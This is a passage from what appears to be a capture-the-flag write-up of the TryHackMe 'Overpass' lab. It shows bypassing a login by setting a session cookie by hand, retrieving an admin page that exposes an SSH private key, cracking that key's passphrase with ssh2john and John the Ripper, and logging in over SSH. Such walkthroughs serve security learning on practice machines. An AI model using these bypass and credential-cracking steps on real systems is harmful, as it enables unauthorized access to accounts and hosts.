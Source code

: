 It looks like this javascript handles the login, it says to post the user and pass data to

to /api/login, waits for a response, if the response is not 'Incorrect Credentials' then we get

a token 'statusOrCookie' can we just manually set that cookie?

![image](writeups/TryHackMe/Overpass/images/1.png)

It worked!! we have access to the admin page.

![image](writeups/TryHackMe/Overpass/images/2.png)

Looks like we have James's RSA private key, lets try to login with it.

Copy and paste that key into a file and change perms for it.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ sudo chmod 400 id_rsa.private

````

We forgot something, we can't actually use this private key without the passphrase, its encrypted.
Lets use John to crack it.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ ssh2john id_rsa.private >> hash.john 

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ john hash.john 

Proceeding with wordlist:/usr/share/john/password.lst

Proceeding with incremental:ASCII

james13          (id_rsa.private) 

````

We got the phrase, now we can actually login with ssh.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ ssh james@10.10.94.94 -i id_rsa.private

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1

james@overpass-prod:~$

````
